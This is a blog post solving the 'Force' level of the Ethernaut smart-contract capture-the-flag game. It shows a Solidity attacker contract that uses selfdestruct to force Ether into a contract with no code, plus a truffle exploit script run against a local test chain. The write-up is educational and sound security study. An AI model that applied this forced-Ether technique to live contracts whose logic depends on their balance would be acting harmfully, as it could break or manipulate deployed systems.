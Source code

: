 Title: Solving OpenZeppelin's Ethernaut CTF - Force
Date: 2018-11-23 23:30
Tags: ethereum, solidity, ctf, smart contracts
Category: Ethereum
Slug: solving-zeppelin-ethernaut-ctf-force
Summary: Post #8 of a series in which we tackle the challenges in the [Ethernaut CTF by OpenZeppelin](https://ethernaut.zeppelin.solutions/){:target="_blank",:rel="noopener"}. All contracts have a hidden self-destruct button. Did you known that? Read on, and see it for yourself.

## Introduction
In [Force](https://ethernaut.zeppelin.solutions/level/0x24d661beb31b85a7d775272d7841f80e662c283b), we need to make the balance of the Force contract greater than zero. In previous challenges we learned how to send transactions to contracts both from other contracts or using the `web3` library. Along these transactions, we would be allowed to send ether as long as the transferee had some kind of `payable` function (be it the constructor, a custom one and/or the fallback).

However, the Force contract does not have any code. I mean, **none**. How are we supposed to deposit Ether into it ? Well, luckily, we have an ace under the sleeve.

## OK contract, selfdestruct
I don't know if you were aware of this, but there's a way to "remove" code from the blockchain. Just code, external accounts cannot be removed from the state.

Every Ethereum smart contract has a hidden `selfdestruct` button, which can pressed at any time to blow the whole thing up. With one little addition: all Ether deposited in the destroyed contract can be automatically sent to whichever other account the contract (i.e. the developer) designates. This happens no matter what.

In other words, any contract can receive Ether at any time, regardless of the logic that it may implement in its code (if it has any *:wink:*). This is the reason why it is considered dangerous to bound the logic of sensible actions to the amount of Ether in balance.

For more details about `selfdestruct`, as always, refer to [the Solidity docs on selfdestruct](https://solidity.readthedocs.io/en/v0.4.25/introduction-to-smart-contracts.html#self-destruct).

We've now found a way through which a contract could send Ether to the codeless Force contract, thus incrementing its balance. So let's do it!.

## Attacking Force
To begin with, code an attacker contract to be sacrificed. Something like the following will do the trick. In the constructor we're just setting the victim address, while in the `destruct` function we just `selfdestruct` the contract, targetting the victim.

~~~solidity
pragma solidity ^0.4.18;

contract ForceAttack {
    address forceAddress;

    function ForceAttack(address _addr) public payable {
        forceAddress = _addr;
    }

    function destruct() public {
        // Execute selfdestruct
        // sending all remaining Ether to forceAddress
        selfdestruct(forceAddress);
    }
}
~~~

Let's see now how to interact with `ForceAttack` and trigger the attack through `web3`. As always, create a new file under the `exploits` folder called `force.exploit.js` and keep the same exploit structure we've been using since the first challenge.

~~~javascript
const ForceContract = artifacts.require('Force')
const ForceAttackContract = artifacts.require('ForceAttack')
const assert = require('assert')

async function execute(callback) {
    // Get a reference to the deployed Force contract
    const contractForce = await ForceContract.deployed()

    // Deploy new contract with initial balance of 5 ETH
    const INITIAL_BALANCE = 5
    const attackerContract = await ForceAttackContract.new(contractForce.address, {
        value: web3.toWei(INITIAL_BALANCE, 'ether')
    })
    
    // Initial balance of Force contract should be 0
    let balance = await web3.eth.getBalance(contractForce.address)
    assert.equal(balance, 0)
    console.log(`Initial balance: ${balance} ETH`)
    
    await attackerContract.destruct()
    
    // Once the transaction is done, final balance of Force contract must have changed
    balance = web3.fromWei(await web3.eth.getBalance(contractForce.address), 'ether')
    assert.equal(balance, INITIAL_BALANCE)
    console.log(`Final balance: ${balance} ETH`)

    callback()
}

module.exports = execute
~~~

I've added some comments to the exploit, though it is as self-explanatory as can be:

- Deploy the attacker contract
- Call `destruct` function
- Pass challenge :)

The rest are just utilities to validate and log each step of the attack.

So that's it! Make sure that you've deployed the Force contract to `ganache` before running the exploit with `npx truffle exec exploits/force.exploit.js`.

Even though the challenge may have been a little basic, it taught us a new feature of smart contracts that we'd never seen before, which might come in handy at some point.

You can find the whole [exploit](https://github.com/tinchoabbate/ethernaut-ctf/blob/master/exploits/force.exploit.js) and the [attacker contract](https://github.com/tinchoabbate/ethernaut-ctf/blob/master/contracts/ForceAttack.sol) at the GitHub repo.

For the next post, be ready to do some Ethereum lockpicking, because we are gonna have to unlock [Vault](https://ethernaut.zeppelin.solutions/level/0xe77b0bea3f019b1df2c9663c823a2ae65afb6a5f). 
